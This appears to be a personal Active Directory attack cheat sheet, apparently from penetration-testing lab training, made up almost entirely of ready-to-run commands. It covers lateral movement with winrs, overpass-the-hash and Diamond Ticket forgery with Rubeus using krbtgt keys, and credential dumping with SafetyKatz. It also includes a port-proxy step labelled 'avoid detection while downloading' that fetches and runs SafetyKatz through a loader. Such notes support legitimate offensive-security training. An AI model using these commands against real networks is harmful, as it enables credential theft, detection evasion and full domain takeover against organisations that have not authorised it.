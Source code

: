 ### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
```powershell
winrs -r:<MACCHINA> cmd
```
### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
```cmd
Rubeus.exe asktgt /user:<USER> /aes256:<HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Use winrs to test
```powershell
winrs -r:dcorp-dc whoami
```
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Other Sessions Opened**
```powerview
Find-DomainUserLocation
```
![[Pasted image 20231018164427.png]]
Connect Using Win-rs
### **Copy from a machine to another**
```powershell
echo F | xcopy <PATH> \\<R MACHINE>\<R PATH>
```
```powershell
Copy-Item <PATH> \\<MACCHINA>\<R PATH>
```
### **Avoid detection while downloading**
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP>"
```
Download and use program
```powershell
$null | winrs -r:<MACCHINA> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
### **Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack.**
Use Rubeus and the krbtgt credentials to create a Diamond Ticket
```CMD
C:\AD\Tools\Rubeus.exe diamond /krbkey:<krbtgt aes256> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:<DOMAIN> /dc:<DC DOMAIN> /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
and now you can user win-rs to execute commands